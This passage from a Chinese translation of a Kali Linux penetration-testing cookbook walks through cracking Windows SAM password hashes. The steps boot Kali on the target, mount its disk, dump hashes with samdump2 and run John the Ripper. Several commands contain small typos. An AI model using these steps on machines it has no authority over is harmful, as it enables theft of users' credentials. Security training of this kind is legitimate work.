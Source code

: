     ```
    run
    ```

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-cb/img/8-4-16.jpg)

## 8.5 使用 John the Ripper 破解 Windows 密码

这个秘籍中，我们会使用 John the Ripper 来破解 Windows 安全访问管理器（SAM）文件。SAM 文件储存了目标系统用户的用户名和密码的哈希。出于安全因素，SAM 文件使用授权来保护，并且不能在 Windows 系统运行中直接手动打开或复制。

### 准备

你将会需要访问 SAM 文件。

这个秘籍中，我们假设你能够访问某台 Windows 主机。

### 操作步骤

让我们开始使用 John the Ripper 破解 Windows SAM 文件。我们假设你能够访问某台 Windows 主机，通过远程入侵，或者物理接触，并且能够通过 USB 或 DVD 驱动器启动 Kali Linux。

1.  看看你想挂载哪个硬盘：

    ```
    Fdisk -l
    ```
    
2.  挂载该硬盘，并将`target`设为它的挂载点。

    ```
    mount /dev/sda1 /target/ 
    ```
    
3.  将目录改为 Windows SAM 文件的位置：

    ```
    cd /target/windows/system32/config 
    ```
    
4.  列出目录中所有内容。

    ```
    ls –al
    ```
    
5.  使用 SamDump2 来提取哈希，并将文件放到你的 root 用户目录中的一个叫做`hashes`的文件夹中。

    ```
    samdump2 system SAM > /root/hashes/hash.txt
    ```
    
6.  将目录改为 John the Ripper 所在目录。

7.  运行 John the Ripper：

    ```
    ./john /root/hashes/hash.txt 
    ./john /root/hashes/hash.txt–f:nt  (If attacking a file on a NTFS System) 
    ```
    